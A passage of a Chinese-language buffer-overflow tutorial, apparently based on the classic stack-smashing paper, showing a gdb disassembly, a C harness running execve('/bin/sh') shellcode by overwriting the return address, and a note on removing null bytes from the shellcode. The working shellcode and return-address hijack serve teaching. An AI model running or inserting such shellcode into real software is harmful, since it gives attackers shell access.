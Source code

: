 ```assembly
0x8000149 :movl %esi,%ebx
0x800014b :leal 0x8(%esi),%ecx
0x800014e :leal 0xc(%esi),%edx
0x8000151 :int	$0x80
0x8000153 :movl $0x1,%eax
0x8000158 :movl $0x0,%ebx
0x800015d :int	$0x80
0x800015f :call 0x8000135
0x8000164 :das
0x8000165 :boundl 0x6e(%ecx),%ebp
0x8000168 :das
0x8000169 :jae 0x80001d3 <__new_exitfn+55>
0x800016b :addb %cl,0x55c35dec(%ecx)
End of assembler dump. 
(gdb) x/bx main+3 
0x8000133 :0xeb
(gdb) 
0x8000134 :0x2a
(gdb)
.
.
.
```



```c
//testsc.c
char shellcode[] = "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00" "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80" "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff" "\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";
void main() { 
    int *ret;
	ret = (int *)&ret + 2;
    (*ret) = (int)shellcode;
}
```



编译并运行：

```sh
[aleph1]$ gcc -o testsc testsc.c 
[aleph1]$ ./testsc 
$ exit 
[aleph1]$
```

ohhhhhh这成功了！但是有一个障碍。在大多数情况下，我们会试图溢出字符缓冲区。因此，shellcode中的任何空字节都将被视为字符串的结尾，复制操作将被终止。shellcode中不能有空字节，exp才能工作。让我们尝试消除空字节（同时使shellcode变小）

![](problem1.png)
